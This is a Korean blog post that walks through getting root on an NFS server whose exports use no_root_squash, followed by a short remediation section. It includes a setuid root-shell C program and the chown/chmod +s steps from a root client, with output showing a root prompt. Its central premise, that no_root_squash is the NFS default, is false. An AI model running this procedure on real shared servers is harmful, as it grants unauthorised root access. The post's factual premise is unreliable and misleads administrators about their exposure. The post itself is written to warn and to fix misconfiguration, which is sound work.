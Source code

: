 ```yaml
---
title: "NFS 서버 no_root_squash 세팅 취약점"
category: Security
toc: true
toc_label: "이 페이지 목차"
---
```


NFS 서버의 no_root_squash 설정 취약점을 이용하여 NFS 서버의 root shell을 얻는 방법을 보여준다.

## NFS 서버 설정
NFS 서버의 설정 파일인 `/etc/exports` 파일에서는 NFS export 할 경로와 옵션을 설정하는데, 이 중에서 보안 관련해서 다음 2가지 중요한 설정이 있다.
- `root_squash`: 클라이언트 호스트의 uid 0에서의 request를 서버의 uid 65534(-2)로 매핑함으로써, 지정된 호스트의 슈퍼 유저의 액세스를 거부하는 보안 기능이다. (uid 65534는 유저 nobody 임)
- `no_root_squash`: uid 0으로부터의 request를 매핑하지 않는다. 즉, client의 root는 server의 root와 같은 권한을 가진다. 이것은 디폴트로 켜져 있으므로 이것을 그대로 사용하면 보안 위험이 있다.

위와 같이 <mark style='background-color: #ffdce0'>no_root_squash</mark> 설정이 디폴트이므로, 만약에 여러 명이서 함께 사용하는 NFS 서버인 경우에는 명시적으로 <mark style='background-color: #dcffe4'>root_squash</mark> 설정을 하지 않으면, NFS 서버의 root shell을 얻을 수 있는 심각한 보안 위험이 있는데, 해킹 방법을 아래에서 예시하겠다.

> 물론 여기서는 NFS 서버에 해당 로그인 계정이 있어야 하는데, NFS 서버를 운영하는 경우는 사실상 이 경우일 것이다.

## Host에서 root shell 얻기 테스트
1. NFS 서버에서 작업하기 전에, 먼저 본인이 관리하는 서버에서 사전 테스트를 해 보자.  
   서버에서 아래와 같이 root_shell.c 파일을 작성한다.
   ```c
   #include <fcntl.h>
   #include <stdlib.h>
   #include <stdio.h>
   #include <sys/stat.h>
   #include <unistd.h>

   int main(int argc, char *argv[])
   {
       setuid(0);
       setgid(0);

       close(0);
       open("/dev/tty", O_RDWR);

       system("/bin/sh");
       return 0;
   }
   ```
1. 아래와 같이 빌드한다.
   ```sh
   $ gcc -o root_shell root_shell.c
   ```
1. 아래와 같이 해당 프로그램에 대하여 실행시 root 권한을 부여한다. (즉, **suid**(set-user-identifier) 모드 설정)
   ```sh 
   $ sudo chown root:root root_shell
   $ sudo chmod +s root_shell
   ```
   그러면 ls 명령으로 확인시 다음과 같은 속성을 확인할 수 있다. (아래에서 NFS 서버를 사용하는 경우에도 이 상태를 만드는 것이 목표임)
   ```sh
   $ ls -l root_shell
   -rwsr-sr-x 1 root     root     8480  11월 14 17:43 root_shell
   ```
1. 이제 아래와 같이 실행해서 테스트 해보면, root 권한이 얻어졌음을 확인할 수 있다.
   ```sh
   $ ./root_shell
   sh-4.4# whoami
   root
   ```

위에서 내 서버에서의 root 권한을 획득하였다.  
이제 <mark style='background-color: #ffdce0'>no_root_squash</mark> 설정의 보안 취약점을 이용하여 NFS 클라이언트에서 **suid**를 설정하고, 결과로 NFS 서버의 root 권한을 획득해 보자.

## NFS 서버 확인
NFS 서버에서 아래와 NFS export 옵션을 확인해 본다.
```sh
$ cat /etc/exports
```
위 출력 결과에서 만약에 옵션 내용에 <mark style='background-color: #ffdce0'>no_root_squash</mark>가 있거나, <mark style='background-color: #dcffe4'>root_squash</mark> 옵션이 없으면 공격 대상이다. 이 경우 아래와 같은 방법으로 root shell을 얻을 수 있다.

## no_root_squash 세팅시 root shell 얻기
1. 위의 root_shell.c 파일을 NFS 서버의 본인 계정으로 복사한 후, NFS 서버에서 마찬가지로 빌드한다.
   ```sh
   $ gcc -o root_shell root_shell.c
   ```
   빌드된 실행 파일을 NFS 디렉터리로 복사한다.
1. Target 디바이스에서 NFS 디렉터리를 마운트 한 후, 마운트 된 디렉터리로 이동한다.  
   Target 디바이스는 나에게 root 권한이 있다. 또, NFS 서버의 <mark style='background-color: #ffdce0'>no_root_squash</mark> 설정 덕분에, 아래와 같이 root_shell 프로그램의 사용자를 root로 변경하고, **suid**(set-user-identifier) 모드를 설정할 수 있다.
   ```sh
   $ sudo chown root:root root_shell
   $ sudo chmod +s root_shell
   ```
1. 이제 이 파일을 NFS 서버에서 확인해 보면 아래와 같이 사용자 및 모드가 바뀌어 있음을 확인할 수 있다.
   ```sh
   $ ls -l
   -rwsr-sr-x 1 root     root     8480  11월 14 17:50 root_shell
   ```
1. 이제 NFS 서버에서 이 파일을 실행하면 마찬가지로 root shell을 얻을 수 있다.
   ```sh
   $ ./root_shell
   sh-4.4# whoami
   root
   ```

## 올바른 NFS 서버 설정
따라서 여러 명이서 함께 사용하는 NFS 서버인 경우에는 `/etc/exports` 파일에서 명시적으로 <mark style='background-color: #dcffe4'>root_squash</mark> 설정을 해야 한다.  
<br>
참고로 이렇게 설정을 하면 NFS 클라이언트에서 root 권한으로 write가 안되므로, NFS 디렉터리에 root 권한으로 core dump 파일이 생성이 되지 않는다.  
이 경우에 NFS 디렉터리에 core dump 파일이 생성되게 하려면 다음 방법 중의 하나를 사용할 수 있겠다.
1. Target 디바이스에서 아래 예와 같이 core dump 파일이 외부 USB 저장 장치에 생성되도록 core path를 설정한다.
   ```sh
   $ sudo echo "/mnt/usb/core" > /proc/sys/kernel/core_pattern
   ```
1. NFS 서버의 마운트 디렉터리에서 아래와 같이 root 권한의 core 파일을 생성해 놓는다. (단, 관리자만 가능)
   ```sh
   $ sudo touch core
   $ sudo chmod 666 core
   ```

## 맺음말
위와 같이 NFS 서버는 설정에 따라 중대한 보안 위협이 있을 수 있다. 그런데 일부 사내 개발 서버들이 이런 위험한 NFS 설정 상태로 되어 있어서😨, 그 위험성을 알리고자 간단히 포스팅한다.
